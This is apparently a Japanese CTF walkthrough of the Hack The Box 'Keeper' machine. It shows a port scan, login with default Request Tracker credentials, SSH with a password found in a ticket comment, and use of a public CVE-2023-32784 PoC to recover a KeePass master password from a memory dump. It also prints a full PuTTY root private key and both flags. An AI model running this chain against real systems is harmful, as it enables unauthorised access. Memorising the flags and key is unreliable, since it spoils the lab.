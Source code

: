https://app.hackthebox.com/machines/Keeper

## STEP 1
```sh
└─$ rustscan -a 10.129.190.164 --scripts none
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
RustScan: Where '404 Not Found' meets '200 OK'.

[~] The config file is expected to be at "/home/kali/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.129.190.164:22
Open 10.129.190.164:80
10.129.190.164 -> [22,80]
```


## STEP 2
80番にアクセス  
別のurlにアクセスするよう言われている  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_01.png">  
/etc/hosts/を編集
```sh
└─$ echo '10.129.229.41 tickets.keeper.htb' | sudo tee -a /etc/hosts
10.129.229.41 tickets.keeper.htb
```
再度アクセス  
[リンク](https://rt-wiki.bestpractical.com/wiki/RecoverRootPassword)よりデフォルトクレデンシャル root/password が判明、ログインできた　　
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_02.png">  
Adminタブから lnorgaard というユーザを確認できるが、コメントからパスワードが「Welcome2023!」と判明した  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_03.png">  
22番が開いていたので、先ほどのクレデンシャルでsshログイン成功！ユーザフラグゲット
```sh
└─$ ssh lnorgaard@10.129.190.164    
The authenticity of host '10.129.190.164 (10.129.190.164)' can't be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.129.190.164' (ED25519) to the list of known hosts.
lnorgaard@10.129.190.164's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
You have mail.
Last login: Tue Aug  8 11:31:22 2023 from 10.10.14.23
lnorgaard@keeper:~$ cat user.txt
86a82b35f5d9dbf56d69283eafbf4ff7
```


## STEP 3
ユーザフラグと同フォルダ内に、zipがあったのでkaliにダウンロード
```sh
lnorgaard@keeper:~$ ls
RT30000.zip  user.txt


lnorgaard@keeper:~$ exit
logout
Connection to 10.129.190.164 closed.


└─$ scp lnorgaard@10.129.190.164:/home/lnorgaard/RT30000.zip .
lnorgaard@10.129.190.164's password: 
RT30000.zip
```
zipには、メモリダンプファイルと.kdbxがあった  
kdbxはkeepass（パスワード管理ツール）のパスワードが入ったファイルだそう
```sh
└─$ unzip RT30000.zip                  
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp     
 extracting: passcodes.kdbx


└─$ file KeePassDumpFull.dmp                                                                                 
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
                                                                                                                                                                                                                                            

└─$ file passcodes.kdbx     
passcodes.kdbx: Keepass password database 2.x KDBX
```
.kdbxを開くにはkaliでは「keepass2」コマンドでできる  
実際に開くとパスワードが必要っぽい  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_04.png">  
パスワードをクラックしてみたが、失敗．．．
```sh
└─$ keepass2john passcodes.kdbx > keepass.txt


└─$ john --wordlist /usr/share/wordlists/rockyou.txt --format=keepass keepass.txt
Warning: invalid UTF-8 seen reading /usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with wordlist:/usr/share/john/password.lst
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:23 DONE (2025-07-12 07:25) 0g/s 153.5p/s 153.5c/s 153.5C/s notused..sss
Session completed.
```
先ほどのブラウザで、keepassのissueに関するチケットを lnorgaard が作成したこと確認  
とういことはzip内のメモリダンプはkeepassのクラッシュダンプね  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_05.png">  
ここでkeepassには、CVE-2023-32784が存在しクラッシュダンプからパスワードを復元できる脆弱性があるらしい  
PoCを試してみると文字列は抽出できたが、何文字が欠落しているっぽい
```sh
└─$ wget https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
--2025-07-12 10:30:42--  https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.111.133, 185.199.109.133, 185.199.108.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.111.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14948 (15K) [text/plain]
Saving to: ‘keepass_dump.py’

keepass_dump.py                                            100%[========================================================================================================================================>]  14.60K  --.-KB/s    in 0s      

2025-07-12 10:30:43 (77.3 MB/s) - ‘keepass_dump.py’ saved [14948/14948]


└─$ python3.13 keepass_dump.py -f KeePassDumpFull.dmp 
[*] Searching for masterkey characters
[-] Couldn't find jump points in file. Scanning with slower method.
[*] 0:  {UNKNOWN}
[*] 2:  d
[*] 3:  g
[*] 4:  r
[*] 6:  d
[*] 7:   
[*] 8:  m
[*] 9:  e
[*] 10: d
[*] 11:  
[*] 12: f
[*] 13: l
[*] 15: d
[*] 16: e
[*] Extracted: {UNKNOWN}dgrd med flde
```
ぐぐってみると、「rødgrød med fløde」の文字を発見  
deeplで翻訳してみるとデンマーク語らしい、どうやって入力するねん  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_06.png">  
「rødgrød med fløde」で開くことができた、どうやらputty形式のssh秘密鍵が保存されている
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Keeper_07.png">  
putty形式のssh秘密鍵を保存
```sh
└─$ cat putty                                                                                                           
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```
ssh秘密鍵に変換してrootログイン成功！ルートフラグゲット！
```sh
└─$ puttygen putty -O private-openssh -o ida_rsa

└─$ ssh -i ida_rsa root@10.129.190.164
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# cat root.txt
dd05820dc970d89af4d2893b0b9a3027

